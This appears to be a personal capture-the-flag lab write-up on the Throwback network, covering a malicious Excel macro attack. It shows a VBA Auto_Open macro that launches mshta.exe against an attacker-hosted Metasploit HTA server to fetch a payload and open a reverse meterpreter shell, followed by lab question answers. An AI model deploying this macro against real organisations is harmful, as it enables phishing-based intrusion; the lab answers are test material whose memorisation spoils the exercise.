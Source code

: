 # Word to your Mother

- After doing everything that you can with your initial footholds your team thinks that its time to look at other resources and services that have opened up while moving through the network.


### Malicious Macro Overview
- Picture this, you are a manager for one of the top accounting firms in the United States. As you walk across the floor, you notice one thing in common: Every device has the Microsoft Office suite installed. This shouldn’t be any surprise to you, as reported in Microsoft’s 2019 Annual report, Office 365 (Commercial) has 180 million users. For an attacker, this is an extremely large attack surface. As an attacker, all you need to do is get one person to click on an Excel/Office document, and they could be the downfall of an organization.

Hence here, out attack vector is MS Excel file which we will use to plant malicious macros in and upload to Timekeep/THROWBACK-TIME machine.




### Step 1 - Manually Creating a Macro
- We will be using the same code base and we will also be utilizing our Metasploit's HTA server to gain reverse shell

### Step 2 - Setup Metasploit's HTA server
- we will be using the module `exploit/windows/misc/hta_server` 

![[Pasted image 20221020145049.png]]
- The URL containing the "`Local IP`" is the server that will deliver the payload to the unsuspecting victim.
	- At the moment, we only have a URL that will deliver a payload, so how does this get executed on the machine?

- This will simply facilitate fetching the .hta file onto the target but we need something to execute this HTA file.
- We could use "`mshta.exe`" in-built Windows executable used to aid in script execution with HTML applications.
	- Using mshta.exe we can execute the file on remote server and get a reverse shell back to our machine


So the payload to execute HTA application on target remote server will look like the following:
```vba
Sub Main()
	PID=Shell("mshta.exe <Local IP in MSfconsole which hosts the HTA server")
End Sub

Sub Auto_Open()
	Main
End Sub
```

- By running this Macro, we can get a a reverse shell back


### Step 3 - Upload excel file with macros onto the Time Server of murphyf

Wait for the meterpreter shell


![[Pasted image 20221020164715.png]]
- We can see that we are the Administrator on THROWBACK-TIME machine!!

### Users on the machine
![[Pasted image 20221020164819.png]]




## Questions
1. What web server accepts XLSMs as a file upload?
`THROWBACK-TIME`

2. What page is the file uploaded in?
`timesheet.php`

3. What is the name of XSLMs we can upload?
`timesheet.xslm`


`Note - I also submitted root flags of TIME in Task 4 as well`